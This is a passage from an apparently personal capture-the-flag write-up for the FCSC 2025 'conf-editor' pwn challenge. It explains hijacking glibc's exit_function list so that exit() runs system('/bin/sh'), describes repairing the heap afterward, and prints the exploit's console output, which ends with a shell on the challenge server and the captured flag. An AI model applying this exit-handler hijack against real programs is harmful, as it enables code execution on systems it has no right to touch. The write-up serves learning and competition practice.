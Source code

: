 ```
	    void (*fn) (void *arg, int status);
	    void *arg;
	    void *dso_handle;
	  } cxa;
      } func;
  };
```

One particular "flavour" of interest is the `ef_cxa`, since the expected exit handler has prototype `void (*fn) (void *arg, int status)` and since its argument `arg` can be controlled too.

By default, there is a single registered `exit_function` in a single `exit_function_list`, located in libc's `.data` section (defined as a global variable in https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/cxa_atexit.c#L75). So we can simply overwrite add a handler to the list with our own function (`system`) and argument (`/bin/sh`, located in libc), and boom, `exit` should launch a shell for us!

### Part VII. Restore heap

Last part, pretty short. Simply restore heap so that all the calls to `free` wont make the program crash. For this purpose, I crafted a fake chunk of size `0x20` inside `M` and wrote its address to `P->value`.

## Results

The final exploit does not work 100% of time since it will fail to write any address containing a whitespace (`0x20`). Also, if we're not lucky some ASLR offset might contain a zero, which wont be dumped and the leak attempt will fail. The exploit takes almost 2 minutes to run, so there was a compromise to find to avoid the server kicking us out of the connection.


```
➜  06-conf-editor git:(master) ✗ python expl.py 
[*] '/home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/06-conf-editor/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[*] '/home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/06-conf-editor/ld-linux-x86-64.so.2'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[*] Loaded 219 cached gadgets for './libc.so.6'
[+] Opening connection to chall.fcsc.fr on port 2103: Done

<lot of stuff printed out>

-- Main Menu --
1. Import Config
2. Edit config
3. Quit
> $ ls
editeur-de-configuration
flag.txt
$ cat flag.txt
FCSC{4e488d31cbb9fe91250c8a239a66d9d7393cc1d90b137dcf71323e81aa1d30d3}
```
